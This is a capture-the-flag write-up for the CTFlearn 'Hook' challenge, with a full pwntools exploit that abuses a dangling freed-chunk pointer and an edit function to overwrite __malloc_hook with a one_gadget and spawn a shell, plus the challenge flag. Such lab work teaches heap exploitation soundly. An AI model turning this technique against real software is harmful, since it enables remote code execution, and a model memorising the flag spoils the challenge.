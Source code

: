 # Hook
> Write-up author: jon-brandy

## Lessons Learned:
- Code Review.
- Exploiting double free vuln.
- Overwrite __malloc_hook() with one_gadget.

## DESCRIPTION:

Go and install your favorite hook! malloc or free? Which do you prefer?

## HINT:
- NONE

## STEPS:
1. In this challenge we're given a 64 bit binary, not stripped, and dynamically linked.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/802741f5-a8cb-45da-853d-5dc3657c31c7)


> Binary Protections

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/c8049608-a580-4e9b-a7ec-4d2433dbd59c)


2. Upon reviewing the source code, seems we can create chunks up to 6 times, free the chunk, and edit it's content.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/4a5002f7-3ca7-4423-8bd9-f4e01545f50a)


3. Found the vuln at the free() function which not set the freed chunks pointer to NULL. This could be leverage to do UAF or double free.
4. The worst outcome is to spawn shell by overwriting `__malloc_hook()` or `__free_hook()` to `system("/bin/sh")`.
5. So everytime it called, the binary should just executes `system("/bin/sh")`.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/f48599d7-1ea5-4eaa-ba20-e1486309b3ab)


6. Reviewing the main() function, seems we do not need to leak main_arena address, because libc puts printed.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/302fc1f0-6785-4092-9901-f88128239198)


7. However, we can't do double free because the libc version has protection for that.

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/66688fc1-2d03-4e4a-a145-8f01069e2ce5)

> PROOF

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/97511c87-3e96-4596-90f1-c14128c0c4e3)


8. BUT, noticed there is an edit() function, which we can use to overwrite the metadata of the second chunk.
9. So we can overwrite it's FD with fake fast near `__malloc_hook()`.

### Exploit Strategy

```
- Overwrite FD's of the second chunk with fake fast near __malloc_hook().
- Identify the correct padding to overwrite __malloc_hook() with one_gadget.
```

10. Now let's identify the offset to drop `__malloc_hook()`.

> TEMPORARY SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

exe = './task'
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'

library = './libc-2.31.so'
libc = context.binary = ELF(library, checksec=False)

def malloc(size, data: bytes):
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', f'{size}')
    sh.sendlineafter(b':', data)

def free(index: int):
    sh.sendlineafter(b'>', b'2')
    sh.sendlineafter(b':', f'{index}')

def edit(index, data):
    sh.sendlineafter(b'>', b'3')
    sh.sendlineafter(b':', f'{index}')
    sh.sendlineafter(b':', data)

sh = process(exe)
# sh = remote('rivit.dev', 10024)

sh.recvuntil(b'puts @ ')
get = sh.recvline().strip()
leaked = eval(get)
log.success(f'LEAKED LIBC PUTS --> {leaked}')

libc.address = leaked - libc.sym['puts']
log.info(f'LIBC ADDRESS --> {hex(libc.address)}')

malloc(0x68, b'A' * 8)
malloc(0x68, b'B' * 8)

free(0)
free(1)

gdb.attach(sh)

sh.interactive()
```

> RESULT

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/a49de579-0e3a-4fb6-9fbb-2f31bb725f30)


11. Found the offset at 51.
12. Great! Now let's overwrite the second chunk with `__malloc_hook` by adding this LOCs.

```py
sh.sendlineafter(b'>', b'3')
sh.sendlineafter(b':', b'1')
sh.sendlineafter(b':', pack(libc.sym['__malloc_hook'] - 51))
```

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/a92df7ed-b605-410a-81a3-8d8f506ae763)


13. Now let's identifyt he correct pads to overwrite it's FD.
14. The easiest way is to allocate 0x68 sized field but filled it with 0x60 junk data so it would not go to segfault.
15. Allocate one junk, then the second malloc should be our cyclic pattern of 0x60.

```py
malloc(0x68, b'C' * 8)
malloc(0x68, cyclic(0x60))
```

> Identifying offset

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/11b66fae-de54-4e59-9527-0240aec34ccc)


16. Great! So we can drop our one_gadget after the padding.

> FULL SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

exe = './task'
elf = context.binary = ELF(exe, checksec=False)
# context.log_level = 'DEBUG'
context.log_level = 'INFO'

library = './libc-2.31.so'
libc = context.binary = ELF(library, checksec=False)

def malloc(size, data: bytes):
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', f'{size}')
    sh.sendlineafter(b':', data)

def free(index: int):
    sh.sendlineafter(b'>', b'2')
    sh.sendlineafter(b':', f'{index}')

def edit(index, data):
    sh.sendlineafter(b'>', b'3')
    sh.sendlineafter(b':', f'{index}')
    sh.sendlineafter(b':', data)

sh = process(exe)
# sh = remote('rivit.dev', 10024)

sh.recvuntil(b'puts @ ')
get = sh.recvline().strip()
leaked = eval(get)
log.success(f'LEAKED LIBC PUTS --> {leaked}')

libc.address = leaked - libc.sym['puts']
log.info(f'LIBC ADDRESS --> {hex(libc.address)}')

malloc(0x68, b'A' * 8)
malloc(0x68, b'B' * 8)

free(0)
free(1)
# free(0)

sh.sendlineafter(b'>', b'3')
sh.sendlineafter(b':', b'1')
sh.sendlineafter(b':', pack(libc.sym['__malloc_hook'] - 51))

malloc(0x68, b'C' * 8)

one_gadget = (0xe6aee, 0xe6af1, 0xe6af4)[1]
gget = libc.address + one_gadget
info(f'ONE GADGET --> {hex(gget)}')

p = flat([
    cyclic(51),
    gget
])

malloc(0x68, p) # Overwrite __malloc_hook with one_gadget

# TRIGGER SHELL SPAWN
sh.sendlineafter(b'>', b'1')
sh.sendlineafter(b':', b'0x68')
# sh.sendlineafter(b':', b'')

# gdb.attach(sh)

sh.interactive()
```

> RESULT LOCALLY

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/23db47c5-d9b8-404d-b4fd-79e462f134a3)


17. Awesome! Let's test it remotely.

> RESULT

![image](https://github.com/Bread-Yolk/ctflearnwu/assets/70703371/27b3f791-59b1-48e9-b707-0adbf12cb386)


18. Got the flag!

## FLAG

```
CTFlearn{l3ts_hurry_t0_l0ve_l1bc_h00ks_th3y_l34v3_us_t00_s00n}
```


